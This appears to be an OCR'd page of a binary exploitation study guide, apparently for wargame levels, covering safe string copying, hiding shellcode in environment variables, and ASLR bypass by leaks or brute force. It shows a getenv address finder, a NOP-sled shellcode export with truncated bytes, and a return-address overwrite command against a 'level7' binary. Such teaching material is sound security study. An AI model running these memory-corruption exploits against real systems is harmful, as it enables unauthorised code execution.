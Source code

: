 // BETTER
strlcpy(dest, src, sizeof(dest));  // BSD systems

// BEST
snprintf(dest, sizeof(dest), "%s", src);
Learn More:

📖 strcpy Vulnerabilities
📖 Secure String Functions
🎥 YouTube: strcpy Security Issues

4. Environment Variables Exploitation
Concept:
Store shellcode in environment variable, then jump to it.
Why it works:

Environment variables stored in predictable location
On stack at high addresses
Executable (if NX disabled)

Finding Environment Address:
c// getenv.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv) {
    printf("%s: %p\n", argv[1], getenv(argv[1]));
    return 0;
}
Usage:
bashexport SHELLCODE=$(python -c 'print "\x90"*1000 + "\x31\xc0..."')
./getenv SHELLCODE
# Output: SHELLCODE: 0xbffff890

# Now use this address in exploit
./level7 $(python -c 'print "A"*offset + "\x90\xf8\xff\xbf"')
Learn More:

📖 Environment Variable Exploitation
📖 Shellcode in Environment
🎥 YouTube: Environment Shellcode

5. ASLR Bypass Techniques
What is ASLR?
Address Space Layout Randomization - randomizes memory addresses.
Check if enabled:
bashcat /proc/sys/kernel/randomize_va_space
# 0 = disabled
# 1 = partial (stack, heap, libraries)
# 2 = full (includes PIE executables)
Bypass Methods:
1. Information Leak:
c// Leak stack address
printf("Stack: %p\n", &local_var);
// Use leaked address in exploit
2. Brute Force:
bash# ASLR only randomizes certain bits
# Keep trying until we hit correct address